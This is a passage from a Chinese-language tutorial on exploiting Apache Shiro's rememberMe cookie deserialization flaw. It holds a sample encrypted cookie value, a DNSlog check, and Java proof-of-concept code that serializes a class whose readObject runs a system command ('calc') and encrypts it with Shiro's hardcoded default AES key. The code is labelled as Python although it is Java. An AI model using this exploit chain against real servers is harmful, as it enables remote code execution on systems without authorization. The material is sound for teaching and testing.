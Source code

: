 ```bash
remeberMe=xKqJ3OlAQ+O/tiZViuumqDP11KJ8X5rBF6Ey7AsLMMb4IJi1gm+EXBVWKm9I3CRP
```

![image-20241029171217236](https://image.201068.xyz/assets/5.软件开发基本知识/image-20241029171217236.png)

##### 以下是结果

dnslog：https://dnslog.org/

![image-20241029170352680](https://image.201068.xyz/assets/5.软件开发基本知识/image-20241029170352680.png)

#### 执行恶意代码

下面演示了执行恶意代码(**打开计算器**)的程序源码，

运行Demo1代码之后生成的字符串通过`burp`抓包放到`cookie`的`rememberMe`中

```python
public class Demo1 extends AesUtils {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        Test test = new Test();
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        // 1. 序列化恶意对象
        // 创建对象输出流，用于序列化对象
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(test);
        // 2. 加密而已对象（byte数组）
        AesUtils aesUtils = new AesUtils();
        byte[] encryptByte = aesUtils.encrypt(baos.toByteArray());
        // 3. 转为base64
        String base64 = Base64.encodeToString(encryptByte);
        System.out.println(base64);
    }
}
class Test implements Serializable {
    private void readObject(ObjectInputStream in) {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
public class AesUtils {
    private static final byte[] DEFAULT_CIPHER_KEY_BYTES = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");
    private Serializer<PrincipalCollection> serializer = new DefaultSerializer();
    private CipherService cipherService = new AesCipherService();
    private byte[] encryptionCipherKey;
    private byte[] decryptionCipherKey;
    public AesUtils() {
        this.setCipherKey(DEFAULT_CIPHER_KEY_BYTES);
    }
    protected byte[] encrypt(byte[] serialized) {
        byte[] value = serialized;
        CipherService cipherService = this.getCipherService();
        if (cipherService != null) {
            ByteSource byteSource = cipherService.encrypt(serialized, this.getEncryptionCipherKey());
            value = byteSource.getBytes();
        }
        return value;
    }
```
